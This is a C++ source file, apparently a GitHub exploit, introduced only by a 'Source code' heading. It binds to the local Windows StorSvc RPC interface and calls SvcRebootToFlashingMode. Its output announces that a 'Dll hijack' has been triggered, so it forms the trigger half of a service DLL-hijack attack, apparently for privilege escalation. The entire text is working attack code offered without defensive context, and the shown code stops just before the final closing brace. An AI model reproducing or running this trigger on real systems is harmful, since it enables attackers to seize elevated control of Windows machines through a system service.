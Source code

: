 ```c++
#include "storsvc_h.h"
#include <iostream>
#include <windows.h>

#pragma comment(lib, "RpcRT4.lib")

int wmain(int argc, wchar_t* argv[])
{
	RPC_STATUS RpcStatus;
	RPC_WSTR StringBinding;
	RPC_BINDING_HANDLE hBinding;

	RpcStatus = RpcStringBindingComposeW(NULL, (RPC_WSTR)L"ncalrpc", (RPC_WSTR)L"", (RPC_WSTR)L"", NULL, &StringBinding);
	if (RpcStatus != RPC_S_OK) {
		printf("[-] RpcStringBindingComposeW() Error: [%u]\n", GetLastError());
		return 0;
	}

	RpcStatus = RpcBindingFromStringBindingW(
		StringBinding,
		&hBinding
	);
	if (RpcStatus != RPC_S_OK) {
		printf("[-] RpcBindingFromStringBindingW() Error: [%u]\n", GetLastError());
		return 0;
	}

	RpcStatus = RpcStringFree(
		&StringBinding
	);
	if (RpcStatus != RPC_S_OK) {
		printf("[-] RpcStringFreeW() Error: [%u]\n", GetLastError());
		return 0;
	}

	RpcTryExcept
	{
		long result = Proc6_SvcRebootToFlashingMode(hBinding, 0, 0);
		if (result == 0)
			wprintf(L"[*] Dll hijack triggered!");
		else
			wprintf(L"[!] Manual reboot of StorSvc service is required.");
	}
	RpcExcept(EXCEPTION_EXECUTE_HANDLER);
	{
		wprintf(L"[-] Exception: %d - 0x%08x.\r\n", RpcExceptionCode(), RpcExceptionCode());
	}
	RpcEndExcept
	{
		RpcBindingFree(&hBinding);
	}

}

void __RPC_FAR* __RPC_USER midl_user_allocate(size_t cBytes)
{
	return((void __RPC_FAR*) malloc(cBytes));
}

void __RPC_USER midl_user_free(void __RPC_FAR* p)
{
	free(p);
```